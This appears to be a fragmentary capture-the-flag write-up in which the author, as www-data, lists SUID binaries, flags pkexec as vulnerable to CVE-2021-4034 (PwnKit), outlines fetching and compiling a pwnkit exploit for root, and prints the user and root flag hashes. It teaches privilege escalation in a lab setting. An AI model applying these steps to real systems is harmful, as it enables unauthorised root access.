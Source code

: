 # find suid binaries running as root
- ## find / -perm -4000 2>/dev/null
```
www-data@incognito:/home$ find / -perm -4000 2>/dev/null
/bin/su
/bin/ping
/bin/fusermount
/bin/umount
/bin/mount
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1 ****
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/pkexec ****
/usr/bin/newgidmap
/usr/bin/gpasswd
/usr/bin/traceroute6.iputils
/usr/bin/sudo
/usr/bin/at
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/newuidmap
/usr/bin/chfn
/sbin/mount.cifs


```

- ## vulnerable to CVE-2021-4034
	- ### pwnkit
- ## wget pwnkit.c
	- ### compile pwnkit.c  get root prompt
- cat user.txt
```
at /home/ArthurMorgan/user.txt
ae39f419ce0a3a26f15db5aaa7e446ff

```
- cat root.txt
```
cat /root/root.txt
42f191b937ea71cd2052a06a7a08585a

```